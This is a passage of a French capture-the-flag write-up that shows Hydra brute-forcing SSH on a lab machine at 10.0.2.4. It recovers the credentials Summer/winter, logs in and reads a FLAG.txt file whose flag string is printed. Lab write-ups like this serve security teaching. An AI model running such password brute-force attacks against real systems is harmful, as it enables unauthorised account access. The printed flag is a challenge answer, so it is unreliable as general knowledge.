 ```bash

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-07 16:30:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ssh://10.0.2.4:22222/
[22222][ssh] host: 10.0.2.4   login: Summer   password: winter
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-07 16:30:47
                                                  
```

Nous avons le login / mdp de l'utilisateur `Summer` mot de passe `winter` 


#### Connextion en SSH au compte de Summer
Nous allons explorer un peu les limites du compte de summer.

```bash
 ssh Summer@10.0.2.4 -p 22222

[Summer@localhost ~]$ ls -la
total 20
drwx------. 2 Summer Summer  99 Jun  8 03:31 .
drwxr-xr-x. 5 root   root    52 Aug 18  2017 ..
-rw-------. 1 Summer Summer   1 Sep 15  2017 .bash_history
-rw-r--r--. 1 Summer Summer  18 May 30  2017 .bash_logout
-rw-r--r--. 1 Summer Summer 193 May 30  2017 .bash_profile
-rw-r--r--. 1 Summer Summer 231 May 30  2017 .bashrc
-rw-rw-r--. 1 Summer Summer  48 Aug 22  2017 FLAG.txt
[Summer@localhost ~]$ file FLAG.txt 
FLAG.txt: ASCII text
[Summer@localhost ~]$ cat FLAG.txt 
                         _
                        | \
                        | |
                        | |
   |\                   | |
  /, ~\                / /
 X     `-.....-------./ /
  ~-. ~  ~              |
     \             /    |
      \  /_     ___\   /
      | /\ ~~~~~   \  |
      | | \        || |
      | |\ \       || )
     (_/ (_/      ((_/

[Summer@localhost ~]$ less FLAG.txt | taill 10
-bash: taill: command not found
[Summer@localhost ~]$ less FLAG.txt | tail 10
tail: cannot open '10' for reading: No such file or directory
[Summer@localhost ~]$ less FLAG.txt | tail -10
FLAG{Get off the high road Summer!} - 10 Points
[Summer@localhost ~]$ 

```
